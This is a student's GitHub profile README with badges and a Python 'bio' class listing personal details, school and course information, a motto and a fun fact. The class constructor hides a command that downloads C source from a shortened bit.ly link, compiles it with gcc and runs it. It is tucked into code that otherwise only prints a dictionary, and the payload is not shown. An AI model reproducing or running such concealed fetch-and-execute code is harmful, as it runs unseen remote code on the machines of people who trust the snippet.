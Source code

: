 <h1 align="center">Yo 👋, I'm John Errol Dela Rosa 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🪪 Last name'                : 'Dela Rosa'
      '- 🙋‍♂️ You can call me'          : 'Jep',
      '- 🤷🏻‍♂️ What is this, nani'       : 'A GitHub repository dedicated to the CPE313 course',
      '- 🏡 I’m currently living in'  : 'Binangonan, Rizal',
      '- 🏫 I’m currently studying in': 'Technological Institute of the Philippines',
      '- 🌱 I’m currently pursuing'   : {'BSCpE' : 'Bachelor of Science in Computer Engineering'},

      '- 📓 Course code - title'      : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                  : 'CPE32S8',
      '- 📊 Elective'                 : 'Data Science',
      '- 🏨 Hotel'                    : 'Trivago',
      '- ❔ I dont know'              : '¯\_(ツ)_/¯',
      '- 👨‍💻 My website project'       : 'https://blogs.mtdv.me/blog/posts/jepowo',

      '- 💧 Motto in life'            : ('Empty your mind, be formless. Shapeless, like water. If you put water'
                                            'into a cup, it becomes the cup. You put water into a bottle and it'
                                            'becomes the bottle. You put it in a teapot, it becomes the teapot.'
                                            'Now, water can flow or it can crash. Be water, my friend.'),
      '- ⚡ Fun fact'                : ('Movie trailers got their name because they were originally shown after the movie.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(JepxZIMA().__dict__)
```
<br>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/NVIDIA_1650-76b900?style=for-the-badge&logo=nvidia&logoColor=%23fff" alt="NVIDIA 1650"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/RYZEN_7_4800H-ed1c24?style=for-the-badge&logo=amd&logoColor=%23fff&label=AMD&labelColor=%23555" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/LAPTOP-000?style=for-the-badge&logo=hp&logoColor=%23fff&label=HP&labelColor=%23555" alt="HP"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/AKKO_3068B_PLUS-8071b3?style=for-the-badge&logo=akko-white"></a>
</p>
